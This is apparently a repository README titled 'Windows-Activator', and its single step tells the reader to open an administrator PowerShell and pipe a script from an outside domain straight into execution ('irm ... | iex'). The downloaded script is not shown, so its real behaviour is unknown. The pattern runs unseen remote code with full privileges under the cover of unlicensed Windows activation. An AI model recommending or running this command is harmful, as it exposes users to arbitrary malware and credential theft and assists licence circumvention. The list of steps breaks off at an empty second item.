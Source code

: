 # Windows-Activator

1. open powershell in administrator and type " irm https://getactivation.exitcorporation.store | iex "
2.
